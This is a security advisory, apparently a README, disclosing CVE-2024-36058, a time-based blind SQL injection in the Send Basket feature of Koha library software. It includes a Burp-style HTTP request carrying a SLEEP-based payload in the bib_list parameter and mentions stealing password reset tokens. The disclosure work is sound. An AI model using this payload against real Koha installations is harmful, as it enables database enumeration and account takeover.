


## Koha Library Software < 22.05.22 — Time-Based Blind SQL Injection

> **CVE ID:** CVE-2024-36058  
> **Product:** Koha Library Software  
> **Vulnerability Type:** Time-Based Blind SQL Injection (CWE-89)  
> **CVSS Score:** 8.1 (High) Authenticated  
> **Affected Versions:** Below 22.05.22  
> **Credits:** Karolis Narvilas

---

### Description

Koha is an open-source integrated library system. A time-based blind SQL injection vulnerability exists in the "Send Basket" functionality at `opac/opac-sendbasket.pl`. The `bib_list` parameter is passed unsanitized into an SQL query, allowing an attacker to inject arbitrary SQL payloads that cause measurable delays in the server's response.

A regular (low-privilege) library user can exploit this vulnerability without any elevated permissions. By leveraging response time discrepancies, an attacker can enumerate the database and retrieve contents that should be restricted to privileged access.

**Impact:** A remote authenticated attacker can exploit CVE-2024-36058 to enumerate sensitive database contents, including exploiting the password reset flow and retrieving password reset tokens for other user accounts to hijack them, leading to unauthorized access and potential data exposure.

---

### Proof-of-Concept (PoC)

1. Log in to Koha as a low-privilege / regular library user.
2. Add a book to the basket, then click **"Send Basket"**.



3. Intercept the resulting request using a proxy such as Burp Suite and inject the payload into the `bib_list` parameter as shown below:

<br>

**Request:**
```http
POST /cgi-bin/koha/opac-sendbasket.pl HTTP/1.1
Host: {domain}
Cookie: [Low Privilege Session]
-- SNIP --

email_add=<recipient>&comment=x&bib_list=1)+AND+(SELECT+1+FROM+(SELECT(SLEEP(36)))x)--+-&csrf_token=<csrf_token>
```

<br>

4. The injected payload causes the database to sleep before returning a response. In this example, the server slept for ~36 seconds, confirming the injection point is exploitable.



---

### References

- [Koha Community - Release Notes for v22.05.22](https://koha-community.org/koha-22-05-22-released/)
- [MITRE - CVE-2024-36058](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-36058)
- [Hacklantic](https://hacklantic.com)